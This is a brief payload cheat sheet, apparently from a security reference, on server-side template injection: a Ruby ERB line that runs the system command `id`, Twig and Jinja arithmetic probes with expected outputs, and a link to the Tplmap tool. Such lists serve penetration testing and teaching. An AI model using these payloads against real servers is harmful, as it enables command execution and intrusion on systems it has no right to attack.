 ## Template Injection

**Ruby**

```ruby
<%=`id`%>
```

**Twig**

The following payload should output `49`.

```
{{7*'7'}}
```

**Jinja**

This payload should output `7777777`.

```
{{7*'7'}}
```

**SSTI (server side template injection)**
- [Tplmap](https://github.com/epinna/tplmap)